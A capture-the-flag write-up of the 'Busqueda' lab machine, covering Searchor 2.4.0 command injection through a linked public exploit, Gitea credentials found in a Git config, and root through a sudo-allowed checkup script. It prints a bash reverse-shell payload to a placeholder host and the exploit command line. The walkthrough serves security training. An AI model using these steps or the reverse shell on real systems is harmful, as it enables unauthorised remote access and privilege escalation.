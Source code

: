 # Busqueda Easy Linux Machine Write Up

![image](https://github.com/user-attachments/assets/725bea9b-f9af-49ed-875d-b5c702a279fe)


## Machine Description

Busqueda is an Easy Difficulty Linux machine that involves exploiting a command injection vulnerability present in a `Python` module. By leveraging this vulnerability, we gain user-level access to the machine. To escalate privileges to `root`, we discover credentials within a `Git` config file, allowing us to log into a local `Gitea` service. Additionally, we uncover that a system checkup script can be executed with `root` privileges by a specific user. By utilizing this script, we enumerate `Docker` containers that reveal credentials for the `administrator` user&amp;amp;#039;s `Gitea` account. Further analysis of the system checkup script&amp;amp;#039;s source code in a `Git` repository reveals a means to exploit a relative path reference, granting us Remote Code Execution (RCE) with `root` privileges. 

## Vulnerability Found

1. Arbitrary CMD Injection in `Searchor` python module version 2.4.0
2. Insecure stored Git credentials on located in the server
3. System checkup script can be executed with root privilege

   
## Step to Re-produce

### Enumeration

### Network Enumeration

I used `nmap` with `-p-, -T5, -O, -oN` tags to enumerate the services that available in the network. 

<div align="center">
  <img src="https://github.com/user-attachments/assets/7c394f87-2128-467f-abaa-fa6b958092a4">
</div>

<div align="center">
  <p><span class="bolded"> Nmap Output</span></p>
</div>
</br>

From the output, I found that this network have 2 open services, ssh on port 22 and http on port 80.

### Web Enumeration

After found out that this network has http service, I looked into it. The interesting one is at the bottom of the page, which was showing what this web powered by.

<div align="center">
  <img src="https://github.com/user-attachments/assets/acbeb47d-8995-4de4-abbc-ebbd2ae335e6">
</div>

<div align="center">
  <p><span class="bolded"> Searchor Version</span></p>
</div>
</br>

As shown the above photo, I knew that this web used **Flask** and **Searchor version 2.4.0**. I was directly searching for the **Searchor** exploit and found out this version of Searchor is vulnerable to Aribitrary CMD Injection in the `eval()` function. I used this PoC: [https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection](Searchor Exploit).

### Exploitation

In this stage, after finding the exploit for **Searchor 2.4.0**, I followed through the PoC and ran the exploit.sh that provided in the PoC Github. 

Command based on the PoC:

    ./exploit.sh site.com <Your-IP> <Your-Port>

<div align="center">
  <img src="https://github.com/user-attachments/assets/fb4235f6-7edc-4be9-92f7-672df2564429">
</div>

<div align="center">
  <p><span class="bolded"> Running the Script</span></p>
</div>
</br>

<div align="center">
  <img src="https://github.com/user-attachments/assets/858b39ad-1cff-4d12-adad-062cb00b3b46">
</div>

<div align="center">
  <p><span class="bolded"> Gain user-access level</span></p>
</div>
</br>

After gaining access to user-level, I found the cat.txt and read it.

### Privilege Escelation

In this stage, to perform privilege escelation, I found a `.git` folder in the `/var/www/app` directory. In `config` file, I found the url and credentials to login into `Gitea`.

<div align="center">
  <img src="https://github.com/user-attachments/assets/cae3212e-0430-49f6-bedc-1af3edb12bda">
</div>

<div align="center">
  <p><span class="bolded"> Gitea URL and credential</span></p>
</div>
</br>

I tried to looked and logged in into the gitea web but found nothing interesting there (maybe I am not detailed enough). 

I connected into ssh using user `svc` and password that was found earlier(gitea cody's password). I ran `sudo -l` to see what file and command that user `svc` may run.

<div align="center">
  <img src="https://github.com/user-attachments/assets/f1a5dbf8-fc95-4e94-ad9b-a8bc5fe1ce7a">
</div>

<div align="center">
  <p><span class="bolded"> Allowed run as root for svc</span></p>
</div>
</br>

I tried to run the command `sudo /usr/bin/python3 /opt/scripts/system-checkup.py *`, following the shown above, I found this:

<div align="center">
  <img src="https://github.com/user-attachments/assets/ce99808b-4860-494c-97f1-4aa0b8bc3623">
</div>

<div align="center">
  <p><span class="bolded"> Choices system checkup</span></p>
</div>
</br>

When I looked into `/opt/script` directory, I found out that it was a directory for a shell script that can be run.

<div align="center">
  <img src="https://github.com/user-attachments/assets/6be8d50f-a6e1-48a3-be1c-5069e746cd4f">
</div>

<div align="center">
  <p><span class="bolded"> Scripts</span></p>
</div>
</br>

It got me thinking for a while. But, I tried to create a new `full-checkup.sh` file in /home/user directory that containing bash command for reverse shell so that when I run it, the bash will be run.

Payload:

    #! /bin/bash bash -i >& /dev/tcp/YOUR-IP/YOUR-PORT 0>&1

I set up a netcat listener and ran the script using the same command like before, the difference was only I didn't use `*` because I chose the `full-checkup` to run the full-checkup script containing reverse shell.

<div align="center">
  <img src="https://github.com/user-attachments/assets/66622d61-360d-4261-981b-b979f18a52f2">
</div>

<div align="center">
  <p><span class="bolded"> Running the script</span></p>
</div>
</br>

<div align="center">
  <img src="https://github.com/user-attachments/assets/a1fb8ba5-d3fe-4c1f-9e6d-65120ab198de">
</div>

<div align="center">
  <p><span class="bolded"> Gaining root access</span></p>
</div>
</br>

<div align="center">
  <img src="https://github.com/user-attachments/assets/0c124544-0954-4066-8c38-4626b8adab5a">
</div>

<div align="center">
  <p><span class="bolded"> Root.txt</span></p>
</div>
</br>


Thank you for reading!

